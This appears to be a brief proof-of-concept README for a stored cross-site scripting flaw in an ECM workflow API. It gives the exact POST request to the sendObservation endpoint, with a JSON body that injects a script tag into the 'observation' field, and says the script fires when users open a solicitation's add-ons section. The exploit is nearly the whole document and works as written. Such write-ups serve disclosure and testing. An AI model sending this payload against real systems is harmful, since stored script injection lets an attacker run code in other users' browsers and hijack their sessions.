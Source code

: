 # xss-s-2

Send a POST to `/ecm/api/rest/ecm/workflowView/sendObservation/` with payload and change `PROCESS_ID` at `processInstanceId` (parameter vulnerable) with ID of your document. To run the stored xss simply navigate to any add-ons section of any solicitation and it will be triggered. 

```
POST /ecm/api/rest/ecm/workflowView/sendObservation/ HTTP/2
Host: host.com
Cookie: JSESSIONID=session; JSESSIONIDSSO=sessionSSO
Content-Type: application/json
Content-Length: 152

{"processInstanceId":PROCESS_ID,"stateSequence":9,"movementSequence":2,"observation":"<p><script>alert(document.domain)</script></p>\n","managerMode":false}
```

